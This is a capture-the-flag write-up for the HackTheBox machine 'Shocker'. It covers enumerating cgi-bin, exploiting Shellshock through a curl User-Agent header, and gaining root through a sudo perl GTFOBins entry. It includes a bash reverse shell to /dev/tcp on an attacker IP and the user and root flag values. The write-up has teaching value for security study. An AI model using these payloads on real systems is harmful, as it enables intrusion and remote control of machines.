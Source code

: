 ```yaml
---
title: HackTheBox - Shocker
categories: [HackTheBox, HTB-Linux]
date: 2022-08-20
tags: [exploit/shell-shock, linux-priv-esc/sudo/gtfo-bin ]
img_path: /Writeups/HackTheBox/Linux/Shocker/images/
image:
  src: Pasted%20image%2020220820044938.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```




# Overview 
This machine begins w/ a web directory enumeration, finding a `cgi-bin/` directory, and by further enumerating the found directory (`cgi-bin/`), a bash script is found, allowing us to use an exploit called shellshock to execute commands, obtaining a low-privilege shell/`shelly `shell.

On the system, the `shelly` has a sudoers entry that allows `shelly` to execute `perl` as `root`, which is exploitable allowing us to spawn a `root` shell.

---

| Column       | Details     |
| ------------ | ----------- |
| Box Name     | Shocker     |
| IP           | 10.10.10.56 |
| Points       | -           |
| Difficulty   | Easy        |
| Creator      | [mrb3n](https://www.hackthebox.com/home/users/profile/2984)            |
| Release Date |   30-Sep-2017          |


# Recon


## TCP/80 (HTTP)
### FFUF
```
                        [Status: 200, Size: 137, Words: 9, Lines: 10]
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
```
- `cgi-bin` directory is found

# Initial Foothold

## TCP/80 (HTTP) - Shell Shock
1. Since the machine is called `Shocker` and we find a `cgi-bin` directory, it is very likely our initial foothold is obtained via [shellshock](https://yufongg.github.io/posts/Shellshock-via-cgi-bin/)
2. Enumerate `cgi-bin` directory, [specifying scripting language extensions](https://en.wikipedia.org/wiki/Scripting_language)
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# ffuf -u http://shocker.htb/cgi-bin/FUZZ -w /usr/share/wordlists/dirb/common.txt -e '.cgi,.pl,.sh,.ps1,.py,.php'
	
	user.sh                 [Status: 200, Size: 118, Words: 19, Lines: 8]
	```
	- `user.sh`
3. Attempt shellshock on `/cgi-bin/user.sh`
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://shocker.htb/cgi-bin/user.sh
	shelly
	
	```
4. Obtain a shell
	```
	┌──(root💀kali)-[~/htb/shocker/10.10.10.56/loot]
	└─# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.8/4444 0>&1' http://shocker.htb/cgi-bin/user.sh
	```
	![](Pasted%20image%2020220820043637.png)
5. User Flag
	![](Pasted%20image%2020220820043857.png)
	- `2ec24e11320026d1e70ff3e16695b233`

# Privilege Escalation

## Root - Via SUDO GTFOBins 
1. Check `shelly` sudo access
	- `/usr/bin/perl`
		- Perl has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/perl/#sudo)
2. Exploit and Obtain Root Flag
	```
	sudo perl -e 'exec "/bin/sh";'
	```
	![](Pasted%20image%2020220820044027.png)
	- `52c2715605d70c7619030560dc1ca467`
3. Change password of `root` & SSH to obtain `root` user
	```
	# passwd  
	Enter new UNIX password: 
	Retype new UNIX password: 
	```
	![](Pasted%20image%2020220820044452.png)
